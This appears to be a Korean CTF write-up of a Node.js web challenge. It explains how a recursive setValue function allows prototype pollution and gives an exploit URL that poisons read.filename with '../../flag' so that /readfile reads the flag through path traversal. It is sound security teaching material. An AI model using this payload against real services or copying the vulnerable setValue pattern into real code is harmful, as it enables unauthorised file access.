



<h1>1. 웹페이지 접속</h1>



파일이름과 파일내용을 입력할 수 있는 공간과 send 버튼이 있다. 임의의 내용을 입력해서 send 해보면

 

다음과 같이 출력된다.



 

파일 이름으로 abc 를 입력하였는데 파일 이름은 sha256 방식으로 암호화되어 출력된다. 

 

 

<h1>2. 소스코드 분석</h1>
이 웹사이트는 Node.js 로 작성되었으며 파일 이름이 출력되던 mkfile 엔드포인트 이외에도 /readfile, /test 엔드포인트도 존재한다. 

 

<h2>취약한 소스코드</h2>

```
app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet"); 
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
 
```

/test 에서 사용하는 setValue 함수에서 취약점이 발견되었다.

 

 

<h2>setValue 함수</h2>

```
function setValue(obj, key, value) {
  const keylist = key.split('.'); 
  const e = keylist.shift(); 
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {}; 
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
```

 

이 함수는 대표적인 프로토타입 오염에 취약한 함수이다.

참고자료 - https://ajy1120.tistory.com/46


 

프로토타입 오염은 Node.js 에서 발생하는 취약점으로 프로토타입 기반 언어인 자바스크립트에서 발생하는 취약점이다.

 

 

<h1>3. 익스플로잇</h1>
<br>
/test의 setValue 함수를 호출하기 위해 다음의 URL 을 파라미터 값으로 전달하였다.
<br>

 

```
/test?func=rename&file=read&filename=__proto__.filename&rename=../../flag
```
그러면 setValue(read, __proto__.filename, ../../flag) 함수가 호출된다. 이 함수가 실행되면 read 객체의 프로토타입

 

의 filename 속성값을 임의의 값으로 지정할 수 있다. 그리고 func=reset 값을 전달하여 read 객체를 다시 초기화하면

 

read 객체의 filename 값이 임의의 값으로 오염되게 된다다.

 

filename 속성값을 오염시킨 이유는 다음의 코드를 이용하기 위해서이다.

```
app.get('/readfile',function(req,resp){ 
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data); // response.send
		})
	}else{
		read[filename]=filename.replaceAll('.',''); 
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

위의 코드를 보면 filename 변수에 GET 방식으로 받은 값을 저장하고 filename 값이 null 값이면 read 객체의 filename

 

속성값을 그대로 사용하여 파일을 불러오는데, setValue 함수를 실행하여 filename 속성값을 오염시켰기 때문에

 

/readfile 에 접근할 때 아무런 값도 전달하지 않는다면 read['filename'] 값을 그대로 가져오게되어 

 

/storage/../../flag 경로에 접근하여 파일을 불러오게 된다. 



